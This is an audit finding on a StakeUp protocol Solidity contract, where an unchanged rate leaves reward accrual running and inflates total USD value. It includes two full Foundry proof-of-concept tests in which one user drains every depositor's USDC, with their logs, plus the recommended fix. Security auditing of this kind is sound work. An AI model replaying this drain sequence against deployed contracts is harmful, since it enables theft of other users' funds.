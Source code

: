 # (HIGH) Artificial inflation of total USD value due to repeated _setUsdPerShare calls with the same rate

In StakeUp's protocol, the rate of USDC per share of stUSDC is updated in the internal [_setUsdPerShare](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L92-L109) function of the [StUsdcLite.sol](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol) contract. This function can be called both from the external [setUsdPerShare](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L53-L55) function, which only the protocol's keeper can trigger, and from the permissionless external [poke](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdc.sol#L164-L216) function, which resides in the [StUsdc.sol](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdc.sol) contract. Apart from updating the USDC per share rate, the [_setUsdPerShare](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L92-L109) function is also responsible for updating the total USD value held by the system, which occurs inside the internal [_totalUsd](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L74-L81) function of the [StUsdcLite.sol](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol).

If the [_setUsdPerShare](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L92-L109) function is called multiple times with the same rate, and with [_rewardPerSecond](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L28) already set, the total USD value will be artificially inflated, enabling users to withdraw more assets than they actually hold.

## Context

- [StUsdcLite.sol#L92-L109](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L92-L109)

## Impact

The total USD value held by the system will be artificially inflated, enabling users to withdraw more assets than their actual holdings.

## Proof of Concept

This issue occurs when the USD per share is updated repeatedly with the same rate, with [_rewardPerSecond](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L28) holding a non-zero value, through the [_setUsdPerShare](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L92-L109) function. Here's a snippet of the [_setUsdPerShare](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L92-L109) code:

```solidity
 92:    function _setUsdPerShare(uint256 usdPerShare, uint256 timestamp) internal {
 93:        // solidify the yield from the last 24 hours (stored as floor which will be used to update totalUsdFloor)
 94:        uint256 floor = _totalUsd();
 95:        _lastRateUpdate = timestamp;
 96:
 97:        uint256 lastUsdPerShare_ = _lastUsdPerShare;
 98:        if (usdPerShare > lastUsdPerShare_) {
 99:            uint256 yieldPerShare = usdPerShare - lastUsdPerShare_;
100:            _rewardPerSecond = yieldPerShare.divWad(Constants.ONE_DAY);
101:        } else if (usdPerShare < lastUsdPerShare_) {
102:            _rewardPerSecond = 0;
103:            floor = usdPerShare.mulWad(_totalShares);
104:        }
105:
106:        _setTotalUsdFloor(floor);
107:        _lastUsdPerShare = usdPerShare;
108:        emit UpdatedUsdPerShare(usdPerShare);
109:    }
```

As seen, the [_rewardPerSecond](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L28) is not reset to zero when `usdPerShare == lastUsdPerShare_`. As a result, the total USD is artificially inflated each time the floor value is retrieved by the [_totalUsd](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L74-L81) function. The total USD value is also updated at line 106. Here's a snippet of the [_totalUsd](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L74-L81) function:

```solidity
74:     function _totalUsd() internal view returns (uint256) {
75:         uint256 timeElapsed = block.timestamp - _lastRateUpdate;
76:         uint256 yieldPerShare = timeElapsed >= Constants.ONE_DAY
77:             ? (_rewardPerSecond.mulWad(Constants.ONE_DAY))
78:             : (_rewardPerSecond.mulWad(timeElapsed));
79:         uint256 yield = yieldPerShare.mulWad(_totalShares);
80:         return _totalUsdFloor + yield;
81:     }
```

The above function computes the total USD value held by the system, yield included. Since [_rewardPerSecond](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L28) is not reset, the value returned by the [_totalUsd](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L74-L81) will inflate over time, even though the USD per share remains the same.

This artificial inflation enables users to withdraw more assets than they hold. To demonstrate this, two Proofs of Concept are shown: one using the [setUsdPerShare](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L53-L55) function and the other using the [poke](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdc.sol#L164-L216) function.

Here's a complete Proof of Concept using the [setUsdPerShare](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L53-L55) function:

```solidity
function test_inflationBugThroughKeeper() public {
    // ************************ SETUP ************************
    // `alice` and `bob` deposit 1,000 USDC each
    uint256 depositAssetAmount = 1_000e6;
    _depositAsset(alice, depositAssetAmount);
    _depositAsset(bob, depositAssetAmount);
    assertEq(stUsdc.balanceOf(alice), depositAssetAmount * 1e12);
    assertEq(stUsdc.balanceOf(bob), depositAssetAmount * 1e12);

    // `borrower` match the order of the stUSDC contract
    uint256 matchAmount = 2 * depositAssetAmount;
    uint256 totalCollateral = _matchBloomOrder(address(stUsdc), matchAmount);
    vm.stopPrank();
    assertEq(bloomPool.matchedDepth(), matchAmount);

    // TBY starts its maturity period
    uint256 tbyId = _bloomStartNewTby(totalCollateral);
    vm.stopPrank();
    assertEq(tby.balanceOf(address(stUsdc), tbyId), matchAmount);

    // *********************** ACTION ************************
    // Simulation of price change over time
    address keeper_ = address(stUsdc.keeper());
    for (uint256 i; i < 5; ++i) {
        _skipAndUpdatePrice(1 days, 220e8, uint80(i));

        vm.prank(keeper_);
        stUsdc.setUsdPerShare(2e18, block.timestamp);
    }

    // ************************ TEST *************************
    // Asserting that `alice`'s stUSDC balance has been artificially inflated
    uint256 aliceStUsdcBalance = stUsdc.balanceOf(alice);
    assertGt(aliceStUsdcBalance, 4 * (depositAssetAmount * 1e12));
    console.log("ALICE stUSDC BALANCE   :", aliceStUsdcBalance);

    // Asserting that `bob`'s stUSDC balance has been artificially inflated
    uint256 bobStUsdcBalance = stUsdc.balanceOf(bob);
    assertGt(bobStUsdcBalance, 4 * (depositAssetAmount * 1e12));
    console.log("BOB stUSDC BALANCE     :", bobStUsdcBalance);
}
```

Logs:
```
ALICE stUSDC BALANCE   : 4999999999999999996000
BOB stUSDC BALANCE     : 4999999999999999996000
```

Here's a complete Proof of Concept using the [poke](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdc.sol#L164-L216) function:

```solidity
function test_inflationBugThroughPoke() public {
    // ************************ SETUP ************************
    // `alice` and `bob` deposit 1,000 USDC each
    uint256 depositAssetAmount = 1_000e6;
    _depositAsset(alice, depositAssetAmount);
    _depositAsset(bob, depositAssetAmount);
    assertEq(stUsdc.balanceOf(alice), depositAssetAmount * 1e12);
    assertEq(stUsdc.balanceOf(bob), depositAssetAmount * 1e12);

    // `borrower` match the order of the stUSDC contract
    uint256 matchAmount = 2 * depositAssetAmount;
    uint256 totalCollateral = _matchBloomOrder(address(stUsdc), matchAmount);
    vm.stopPrank();
    assertEq(bloomPool.matchedDepth(), matchAmount);

    // TBY starts its maturity period
    uint256 tbyId = _bloomStartNewTby(totalCollateral);
    vm.stopPrank();
    assertEq(tby.balanceOf(address(stUsdc), tbyId), matchAmount);

    // Simulation of price change over time until TBY's maturity is reached
    uint256 newPrice;
    for (uint256 i; i < 180; ++i) {
        if (i < 45) {
            newPrice = 110e8;
        } else if (i < 90) {
            newPrice = 250e8;
        } else if (i < 170) {
            newPrice = 175e8;
        } else {
            newPrice = 220e8;
        }

        vm.prank(rando);
        stUsdc.poke(_generateSettings(address(0)));

        _skipAndUpdatePrice(1 days, newPrice, uint80(i));
    }

    // Turning TBY redeemable
    _bloomEndTby(tbyId, 2 * totalCollateral);
    vm.stopPrank();
    assertTrue(bloomPool.isTbyRedeemable(tbyId));

    // Redemption of TBY
    vm.prank(rando);
    stUsdc.poke(_generateSettings(address(0)));
    assertEq(tby.balanceOf(address(stUsdc), tbyId), 0);

    // *********************** ACTION ************************
    // `alice` withdraws all USDC held in stUSDC contract (`bob`'s balance included)
    uint256 stUsdcBalance = stableToken.balanceOf(address(stUsdc));
    vm.startPrank(alice);
    stUsdc.redeemStUsdc(stUsdcBalance * 1e12);

    // ************************ TEST *************************
    // Asserting that `alice` withdraws all USDC from stUSDC contract
    uint256 aliceUsdcBalance = stableToken.balanceOf(alice);
    assertEq(aliceUsdcBalance, stUsdcBalance);
    console.log("ALICE USDC BALANCE     :", aliceUsdcBalance);

    // Asserting that the stUSDC contract no longer holds any USDC
    stUsdcBalance = stableToken.balanceOf(address(stUsdc));
    assertEq(stUsdcBalance, 0);
    console.log("stUSDC USDC BALANCE    :", stUsdcBalance);

    // Asserting that `bob` cannot get his USDC back
    vm.expectRevert(Errors.InsufficientBalance.selector);
    vm.startPrank(bob);
    stUsdc.redeemStUsdc(10e18);
    console.log("BOB USDC BALANCE       :", stableToken.balanceOf(bob));
}
```

Logs:
```
ALICE USDC BALANCE     : 3990000000
stUSDC USDC BALANCE    : 0
BOB USDC BALANCE       : 0
```

## Recommendation

Consider changing the else if condition at line 101 of the [StUsdcLite.sol](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol) contract as follows:

```solidity
101: (-)  else if (usdPerShare < lastUsdPerShare_)
101: (+)  else if (usdPerShare <= lastUsdPerShare_)
```

This will ensure that [_rewardPerSecond](https://github.com/stakeup-protocol/stakeup-contracts/blob/67a5e7bbd019c745239f9d5da10208da57dc1c64/src/token/StUsdcLite.sol#L28) is reset to zero if the USD per share is updated with the same rate.
